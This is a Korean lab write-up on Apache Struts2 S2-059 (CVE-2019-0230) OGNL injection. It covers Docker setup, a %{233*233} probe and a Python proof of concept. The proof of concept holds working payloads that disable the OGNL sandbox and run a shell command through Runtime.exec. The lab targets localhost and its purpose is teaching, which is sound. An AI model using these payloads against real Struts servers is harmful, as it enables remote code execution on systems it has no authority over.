 # Struts2 S2-059 원격 코드 실행 취약점 (Remote Code Execution Vulnerablity(CVE-2019-0230))

Apache Struts2 프레임워크는 ID 속성과 같은 특정 태그의 속성 값을 2차적으로 분석하므로 공격자가 태그 속성을 나타낼 때 다시 분석될 OGNL 표현을 전달하여 OGNL 표현을 주입할 수 있습니다.이로 인해 코드가 원격으로 실행될 수 있습니다.

Affected Version: Struts 2.0.0 - Struts 2.5.20

참고자료:

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 설정

Start the Struts 2.5.16 환경:

```
docker compose up -d
```


환경 설정 후, `http://{나의 ip주소}:8080/?id=1`에 가보면 Struts2 test page를 볼 수 있다.

![1.png](1.png)

## Exploit

`http://{나의 ip주소}:8080/?id=%25%7B233*233%7D`에 방문해보면 id 속성에서 233*233 결과과 반환된 것을 확인 가능
즉, 이 표현식을 사용한 주요 목적은 Struts2이 사용자 제공 입력을 OGNL 표현식으로 해석하고 실행하는지 여부를 확인하는 것. 만약 사용자가 제공한 입력 값인 233*233이 평가되어서 결과 값인 54289로 반환된다면, 애플리케이션은 OGNL 표현식 주입 취약점이 있음을 알 수 있음.
변경 확인 방법은 개발자 도구를 통해 확인 가능

![2.png](2.png)
![3.png](3.png)
![4.png](4.png)


[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)(참고 자료)를 통해 Struts 2.5.16.의 OGNL sandbox bypass의 세부사항을 알 수 있습니다.



## 취약점 증명용 간단한 파이썬 POC


```python
import requests  # requests 모듈을 불러옴

url = "http://127.0.0.1:8080"  # 대상 웹 서버의 URL

# 첫 번째 공격 payload
# Struts2의 OGNL 표현식을 이용하여 웹 어플리케이션의 보안 설정을 바꾸려고 시도.
# 특히, 실행될 클래스와 패키지의 제한을 제거하려고 시도.
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}

# 두 번째 공격 payload
# 첫 번째 payload에서의 보안 설정 변경 후, 서버 내에서 외부 명령을 실행하려고 시도.
# 'touch /tmp/successbywhs1hyeongyu' 명령을 사용하여 서버 내 '/tmp' 디렉터리에 파일을 생성.
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/successbywhs1hyeongyu'))}"
}

# 첫 번째 공격 payload를 사용하여 POST 요청을 전송
res1 = requests.post(url, data=data1)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res1.text)

# 두 번째 공격 payload를 사용하여 POST 요청을 전송
res2 = requests.post(url, data=data2)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res2.text)

```


해당 POC를 실행하면 `touch /tmp/successbywhs1hyeongyu`가 실행이 된다.:

![5.png](5.png)
![6.png](6.png)
![7.png](7.png)
![8.png](8.png)
